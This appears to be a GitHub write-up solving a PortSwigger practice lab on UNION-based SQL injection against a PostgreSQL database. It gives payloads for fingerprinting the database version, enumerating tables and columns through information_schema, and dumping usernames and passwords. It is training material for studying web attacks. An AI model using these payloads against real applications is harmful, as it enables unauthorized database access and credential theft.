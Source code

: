 ## LAB 7: SQL injection attack, listing the database contents on non-Oracle databases
[SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oraclet)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Solution
![LAB SCREENSHOT](./assets/lab7.1.PNG)

1. Figure out the database type
2. Figure out the names of other tables in the database
3. Fetch the usernames and passwords from one of the tables
4. Login as administrator

### 1. Figure out the database type
We need to figure out the database type before we can attempt to extract any database information.

Try the following which ever returns the version
`'+UNION+SELECT+version,NULL+FROM+v$instance--` - Oracle
`'+UNION+SELECT+@@version,NULL--` - MySQL / Microsoft
`'+UNION+SELECT+version(),NULL--` - PostgreSQL 

The database is a PostgresSQL database.
![PostgresSQL SCREENSHOT](./assets/lab7.2.PNG)



### 2. Figure out the names of other tables in the database
From the previous labs we know the current table contains two columns and both of them varchar/string. We can use the following query to list all the tables in the database. `SELECT * FROM all_tables`. As per [PostgresSQL documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html) the `information_schema.tables` table has a column named `table_name`. Running the following query should return the names of all the tables in the database.

`' UNION SELECT table_name,NULL FROM information_schema.tables--`  

![PostgresSQL SCREENSHOT](./assets/lab7.3.PNG)

Using `Find` to find all table with the keyword user in the page and found a table named `users_fccjyb` which seems to be the table. 
![PostgresSQL SCREENSHOT](./assets/lab7.4.PNG)


### 3. Fetch the usernames and passwords from one of the tables
Fetching the columns in the `users_fccjyb` table.
`' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_fccjyb'--`
![TABLE SCREENSHOT](./assets/lab7.5.PNG)

There are two columns in the table `username_mscjnd` & `password_endqgl`. Lets fetch the usernames & password from the table.
`' UNION SELECT username_mscjnd,password_endqgl FROM users_fccjyb--`
![TABLE SCREENSHOT](./assets/lab7.6.PNG)


### 4. Login as administrator
Logging in as `administrator` with the password `9t7l9xo6oya5x92n15xa`.
![SOVLED SCREENSHOT](./assets/lab7.7.PNG)



<!-- EOF -->